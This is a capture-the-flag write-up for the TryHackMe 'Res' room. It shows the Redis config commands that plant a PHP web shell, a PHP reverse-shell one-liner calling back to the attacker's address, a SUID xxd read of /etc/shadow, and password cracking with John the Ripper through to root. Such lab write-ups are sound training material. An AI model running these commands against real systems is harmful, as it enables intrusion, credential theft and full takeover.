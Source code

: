 Room: [Res](https://tryhackme.com/room/res)

Difficulty: Easy

Overview: In this room we will exploit Apache webserver path and get an RCE through Redis service. We will also take advantage of an SUID binary and crack some credentials in order to privesc to "root" user.  

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we will start off our target enumeration by doing "Nmap" scan:

```
nmap -sV -sC -p- res.thm -oN nmap.txt

-sV → Probe open ports to determine service
-sC → Scan using the default set of scripts
-p- → Scan all ports
-oN → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/131228285-690140dd-4494-40e0-b64c-533e3464a33f.png)

On port 80 there's a simple Apache webserver:

![image](https://user-images.githubusercontent.com/76821053/131228294-7c177622-f45c-4fba-9531-d1341a037e5b.png)

Let's ignore the Apache webserver for now and run the “Redis” service and see if we can find anything usefull:

```
redis-cli

info  → get information and statistics from the server

```

After running 'INFO' i could not fing any Redis databases. The "Keyspace" field is where the databases are listed and there were none.

So i head to [hacktricks website](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to see how we could exploit "Redis" service:

![image](https://user-images.githubusercontent.com/76821053/131228325-dccf7b1b-96a4-48cf-849e-839796b7af35.png)

Let's try to replicate and get and RCE through the Apache webserver. To do so we need to know its path. So, by default we can assume that the webserver is stored at /var/www/html. 

```
config set dir /var/www/html

config set dbfilename shell.php

set test "<?php phpinfo(); ?>

save
```

![image](https://user-images.githubusercontent.com/76821053/131228371-801b9338-6698-4b97-ae3a-436c0afafdcb.png)

Now we can check the new path that we created with Redis on the Apache webserver:

![image](https://user-images.githubusercontent.com/76821053/131228376-31fa54e5-6e56-4d8c-bdc1-b782a56d4e24.png)

Since we used a php webshell that allows us to input commands we have to add to the url “?cmd=”:

```
http://res.thm/shell.php?cmd=
```

In this example we can see that we can print the contents of /etc/passwd:

![image](https://user-images.githubusercontent.com/76821053/131228403-e44c6db8-2786-437d-9d18-963813801537.png)

It is time to get a reverse shell connection from the webserver to our netcat listener. And to do so we can use this php payload:

```
php -r '$sock=fsockopen("your_ip_address,PORT);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Setup a netcat listener on your chosen port and run the command:

![image](https://user-images.githubusercontent.com/76821053/131228419-c53d6c5c-8584-47a7-80ac-1ae33cc8775a.png)

Success we recieved a reverse shell connection:

![image](https://user-images.githubusercontent.com/76821053/131228426-b9480285-295a-4f9e-bcf7-4e09275bd50c.png)

Now we have to enumerate the target machine, and we can start by checking for SUID binaries:

```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```

![image](https://user-images.githubusercontent.com/76821053/131228444-a8c5bf13-6205-41f6-bf13-f7eb353e115c.png)

We have found an interesting SUID binary that we can take advantage of, and it is “xxd”. 

There is an awesome website called [GTFOBins](https://gtfobins.github.io/) which has a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

If we seach for "xxd" we can see how we will procede in our privilege escalation:

![image](https://user-images.githubusercontent.com/76821053/131228474-3bab939f-062c-4fd7-9e6c-dce114f6c193.png)

Let's read /etc/shadow with “xxd” since it is where all the user passwords hashes are stored:

```
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```

![image](https://user-images.githubusercontent.com/76821053/131228491-9af77f35-479a-4e7f-a79e-9f7f3e5d5d1f.png)

We have found a password hash for user “vianka”. To try and crack this hash with “john the ripper” we will also need /etc/passwd:

![image](https://user-images.githubusercontent.com/76821053/131228503-ffbe92b5-2538-45f5-833b-e695c6b39054.png)

To crack the hash we need to change to our machine and store the contents of /etc/passwd and /etc/shadow in two different files. With a tool called unshadow we are going to merge the two files and send it to “john the ripper”:

```
unshadow passwd shadow > unshadow

john unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/76821053/131228534-a8f86dd0-59e7-4325-a9c2-5c3e958e434f.png)

We cracked “vianka” password. 

On the target machine if we try to change to user "vianka" we will get an error. We need to upgrade our shell to a tty one:

```
python3 -c "__import__('pty').spawn('/bin/bash')"

su vianka
```

![image](https://user-images.githubusercontent.com/76821053/131228575-d171f0f3-a16c-48d4-ae61-f9db09776bce.png)

After upgrading our shell we can use "su" command to change users:

![image](https://user-images.githubusercontent.com/76821053/131228581-01daa1b7-4532-40ab-8176-9d470bc966d8.png)

With user “vianka” let's check what sudo permissions she has. 

```
sudo -l
```

![image](https://user-images.githubusercontent.com/76821053/131228610-7b7cddbe-d1bf-4ddb-8f9d-a7dcd43c72da.png)

We can see that this user can run any command on any host has any user. This means that we can privesc to “root” just by doing:

```
sudo su
```

![image](https://user-images.githubusercontent.com/76821053/131228631-ac61e895-6ada-4e13-b6c9-def4890bae13.png)

Success we are now "root" and the last flag of this room is at /root directory:

![image](https://user-images.githubusercontent.com/76821053/131228643-c7d702ff-5c90-49d7-a8db-b2ceb8e3918e.png)

